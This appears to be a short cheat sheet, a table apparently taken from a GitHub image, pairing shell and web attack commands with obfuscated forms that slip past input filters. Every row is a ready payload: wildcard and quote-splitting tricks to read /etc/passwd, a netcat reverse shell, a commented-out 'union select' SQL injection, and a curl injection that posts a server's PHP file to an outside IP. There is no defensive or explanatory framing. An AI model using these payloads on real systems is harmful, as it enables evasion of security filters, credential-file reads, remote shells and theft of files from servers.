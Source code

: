 Description | Command | Obfuscated
- | - | -
Wildcard evasion | /bin/cat /etc/passwd | /???/??t /???/p??s??
Wildcard reverse shell | nc -e /bin/bash 127.0.0.1 1337 | /???/n? -e /???/b??h 2130706433 1337
Empty variable evasion | cat /etc/passwd | /cat$u /etc$u/passwd$u
SQL Injection comment | /?id=1+union+select+1,2,3-- | /?id=1+un/&ast;&ast;/ion+sel/&ast;&ast;/ect+1,2,3--
String literal concatenation | /bin/cat /etc/passwd | /b'i'n/ca't' /'e'tc/'pa'sswd
String literal concatenation | /bin/cat /etc/passwd | /b\i\n/ca\t\ /\e\tc/\pa\sswd
Enumerate files | echo /etc/passwd | echo /???/??ss??
File in POST request (curl injection) | curl -d @/usr/local/.../index.php 1.1.1.1:1338 | site.com/page.php?zzz=-d+%40/usr/local/.../index.php+1.1.1.1:1337"
